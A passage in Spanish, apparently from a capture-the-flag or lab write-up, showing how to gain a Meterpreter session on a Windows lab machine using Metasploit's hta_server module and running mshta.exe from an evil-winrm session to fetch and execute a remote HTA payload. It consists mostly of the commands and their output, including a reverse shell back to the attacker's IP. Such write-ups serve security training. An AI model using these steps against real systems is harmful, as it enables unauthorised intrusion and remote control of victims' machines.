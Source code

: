 Inicia **Metasploit** y usa el módulo **HTA Server**:
```bash
msfconsole -q
msf6 > use exploit/windows/misc/hta_server
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) >
```

Vamos a configurarlo para que acepte la **arquitectura x64 de Windows** y le configuramos nuestra IP:
```bash
msf6 exploit(windows/misc/hta_server) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > set target 1
target => 1
msf6 exploit(windows/local/bypassuac_comhijack) > set LHOST Tu_IP
LHOST => Tu_IP
```

Lo ejecutamos y copiamos la URL:
```bash
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on Tu_IP:4444 
[*] Using URL: http://Tu_IP:8080/nkP4w3.hta
[*] Server started.
```

Ahora, en la sesión de **evil-winrm**, usamos el comando **mshta.exe** y le agregamos la URL:
```bash
*Evil-WinRM* PS C:\Users\Chivas Regal\Documents> mshta.exe http://Tu_IP:8080/nkP4w3.hta
```

Si revisas **Metasploit**, verás que ya tienes una sesión de **Meterpreter**:
```bash
msf6 exploit(windows/misc/hta_server) > 
[*] 192.168.69.69    hta_server - Delivering Payload
[*] Sending stage (203846 bytes) to 192.168.69.69
[*] Meterpreter session 1 opened (Tu_IP:4444 -> 192.168.69.69:49776) at 2025-02-25 02:13:55 -0600

msf6 exploit(windows/misc/hta_server) > sessions

Active sessions
===============

  Id  Name  Type                     Information                              Connection
  --  ----  ----                     -----------                              ----------
  1         meterpreter x64/windows  PACHARAN\Chivas Regal @ WIN-VRU3GG3DPLJ  Tu_IP:4444 -> 192.168.69.69:49776 (192.168.69.69)
```

<br>

<h3 id="Suggester">Utilizando Módulo local_exploit_suggester y Probando Exploit cve_2024_35250_ks_driver</h3>
